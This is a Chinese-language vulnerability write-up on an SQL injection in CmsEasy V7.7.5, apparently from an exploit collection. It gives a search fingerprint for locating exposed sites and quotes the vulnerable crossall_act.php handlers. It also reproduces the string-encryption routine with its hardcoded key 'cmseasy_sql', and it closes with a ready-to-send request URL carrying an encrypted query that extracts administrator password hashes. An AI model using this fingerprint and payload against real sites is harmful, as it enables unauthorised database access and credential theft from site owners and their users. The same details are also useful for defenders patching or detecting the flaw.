

CmsEasy crossall_act.php SQL注入漏洞¶
漏洞描述¶
CmsEasy 存在SQL注入漏洞，通过文件 service.php 加密SQL语句执行即可执行任意SQL命令
漏洞影响¶
CmsEasy V7.7.5_20210919
网络测绘¶
body="cmseasyedit"
漏洞复现¶

存在漏洞的文件为 lib/default/crossall_act.php

其中需要注意的代码为
function execsql_action(){
$sqlquery=front::get("sql");
$sqlquery=service::getInstance()->unlockString($sqlquery,"cmseasy_sql");
$returndata=tdatabase::getInstance()->rec_query_one($sqlquery);
echo json_encode($returndata);
exit;
}
function execsqls_action(){
$sqlquery=front::get("sql");
$sqlquery=service::getInstance()->unlockString($sqlquery,"cmseasy_sql");
$returndata=tdatabase::getInstance()->rec_query($sqlquery);
echo json_encode($returndata);
exit;
}
function execupdate_action(){
$sqlquery=front::get("sql");
$sqlquery=service::getInstance()->unlockString($sqlquery,"cmseasy_sql");
$returndata=tdatabase::getInstance()->query($sqlquery);
echo json_encode($returndata);
exit;
}
代码中传入参数 sql， 然后使用方法 unlockString 解码执行 SQL语句
查看文件 lib/table/service.php
public static function lockString($txt,$key='cmseasy_sql')
{
$chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789-=+";
$nh = rand(0,64);
$ch = $chars[$nh];
$mdKey = md5($key.$ch);
$mdKey = substr($mdKey,$nh%8, $nh%8+8);
$txt = base64_encode($txt);
$tmp = '';
$i=0;$j=0;$k = 0;
for ($i=0; $i<strlen($txt); $i++) {
$k = $k == strlen($mdKey) ? 0 : $k;
$j = ($nh+strpos($chars,$txt[$i])+ord($mdKey[$k++]))%64;
$tmp .= $chars[$j];
}
return urlencode($ch.$tmp);
}
/**对字符串进行解密。 crossall_act文件使用
* @param $txt
* @param string $key
* @return bool|string
*/
public static function unlockString($txt,$key='cmseasy_sql')
{
$txt = urldecode($txt);
$chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789-=+";
$ch = $txt[0];
$nh = strpos($chars,$ch);
$mdKey = md5($key.$ch);
$mdKey = substr($mdKey,$nh%8, $nh%8+8);
$txt = substr($txt,1);
$tmp = '';
$i=0;$j=0; $k = 0;
for ($i=0; $i<strlen($txt); $i++) {
$k = $k == strlen($mdKey) ? 0 : $k;
$j = strpos($chars,$txt[$i])-$nh - ord($mdKey[$k++]);
while ($j<0) $j+=64;
$tmp .= $chars[$j];
}
return base64_decode($tmp);
}
文件中得到了 $key='cmseasy_sql' 和加解密方法，构造请求获取账号密码md5

/?case=crossall&act=execsql&sql=Ud-ZGLMFKBOhqavNJNK5WRCu9igJtYN1rVCO8hMFRM8NIKe6qmhRfWexXUiOqRN4aCe9aUie4Rtw5